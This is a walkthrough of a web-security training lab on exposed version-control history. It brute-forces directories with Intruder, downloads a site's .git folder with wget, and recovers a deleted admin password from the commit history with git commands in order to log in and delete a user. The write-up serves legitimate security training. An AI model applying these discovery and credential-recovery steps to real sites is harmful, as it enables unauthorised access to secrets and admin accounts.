

### Information disclosure in version control history
<i>Please note that during the explanation my Lab ID will change, so there will be some discrepancy between the screen-shots and commands</i><br>
To follow the solution you will need to have installed:
+ wget
+ git CMD

#### Lab
The lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

First of all let's to brute-force the application directories structure. To do that we can use Intruder. Set up the position in the request as follows (choose Sniper as attack)
<br><br>

Then in the payload(1) set the type as Simple list (2) and the list of the sub directories to test (3, <i>please note that here I have used a limited wordlist to speed up the process</i>). Be sure to uncheck the URL encoding characters option (4) before to execute the attack.
--101--
After a while we can see that the <b>.git</b> has been found. 
--102--
Just to recall this folder contains all information that is necessary for the project and all information relating commits. It also contains a log that stores the commit history. This log can help you to roll back to the desired version of the code. Very interesting, first we have open a git CMD, then we can proceed to downlad the whole folder using wget:
```
wget -r https://0aae000604fffb3fc15be60b0075004c.web-security-academy.net/.git
```
Now enter into the downloaded directory
```
cd 0aae000604fffb3fc15be60b0075004c.web-security-academy.net
```
then we can check git log
```
>git log
commit 382d921b56e84ec70bb7cab25e444e98d4c02350 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 68eb0e4aabbe8db5654194dfc68db2f1430f4ee5
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```
We can see from the above command that the admin passord was removed from the config file. Now we can check the status 
```
>git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    admin.conf
        deleted:    admin_panel.php

no changes added to commit (use "git add" and/or "git commit -a")
```
Here we can see that the changes have not yet been added to the staging area, we can try to revert the last commit using reset command, then check the status again
```
>git reset --soft HEAD~1

>git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        modified:   admin.conf

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    admin.conf
        deleted:    admin_panel.php
```
Now we can see that there are pending modification in the admin.conf file, as suggested we can restore the original modification of the file issuing the following command
```
>git restore --staged admin.conf
>REM then we can use the diff command to get the deleted information in the admin.conf file
>git diff
diff --git a/admin.conf b/admin.conf
deleted file mode 100644
index 3ac915d..0000000
--- a/admin.conf
+++ /dev/null
@@ -1 +0,0 @@
-ADMIN_PASSWORD=jw8ut5ca18vqbmvg75ij
diff --git a/admin_panel.php b/admin_panel.php
deleted file mode 100644
index 8944e3b..0000000
--- a/admin_panel.php
+++ /dev/null
@@ -1 +0,0 @@
-<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
\ No newline at end of file
```
Knowing the administrator password we can proceed to login and delete carlos
#### References
